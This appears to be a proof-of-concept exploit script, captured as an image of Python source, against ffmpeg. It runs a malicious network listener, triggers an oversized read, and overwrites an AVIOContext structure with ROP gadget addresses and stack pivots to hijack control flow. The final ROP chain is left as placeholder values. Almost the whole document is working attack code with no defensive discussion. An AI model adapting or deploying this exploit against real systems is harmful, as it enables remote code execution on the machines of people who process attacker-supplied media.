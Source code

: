 ```python
pop_rsp = 0x00000000004077e9     # pop rsp; ret;
stack_pivot = 0x000000000049daa9 # add rsp, 0x58; ret;
push_rbx_jmp_rdi = 0x000000000117fc75 # push rbx; jmp rdi;


def main():
    # Start a listener and wait for a connection from ffmpeg
    p = listen(12345)

    # Wait for connection before sending payload
    log.info("Waiting for the victim...")
    p.wait_for_connection()
    log.success("Victim found!")

    # Initialise the ffmpeg instance and prepare it for the bug
    p.send(headers)

    # Trigger the bug with the overly large read
    p.sendline("-1")
    log.info("Bug triggered. Please wait for two seconds...")
    time.sleep(2)   # The sleep allows for a clean transmission boundary

    payload  = "A" * 0x8060     # Padding to start of AVIOContext struct

    # Setup the fake AVIOContext struct for the pivot into attacker controlled
    # memory

    payload += p64(stack_pivot) # [av_class] Pivot stack into controlled mem (3)
    payload += ("A"*8) * 4      # [buffer, buffer_size, buf_ptr, buf_end]
    payload += p64(pop_rsp)     # [opaque] Value in RDI at (1). (2)

    payload += p64(push_rbx_jmp_rdi) # [read_packet] initial RIP control (1)

    payload += ("X"*8) * 3      # [write_packet, seek, pos]
    payload += "AAAA"           # [must_flush]
    payload += p32(0)           # [eof_reached] Must be zero or read terminates
    payload += "A" * 8          # [write_flag, max_packet_size]
    payload += p64(stack_pivot) # [checksum] One more stack pivot (4)
    payload += ("A"*8) * 11     # Padding to set up the stack for the main ROP

    # ROP chain starts here
    payload += p64(0xdeadbeef)  # ROP Chain
    payload += p64(0xcafebabe)
    payload += p64(0xba5eba11)

    # Send the entire payload
    log.info("Payload sent!")
    p.send(payload)

    # Close the socket to terminate the read on the ffmpeg end to process the
    # shellcode
    p.close()


if __name__ == '__main__':
    main()
```

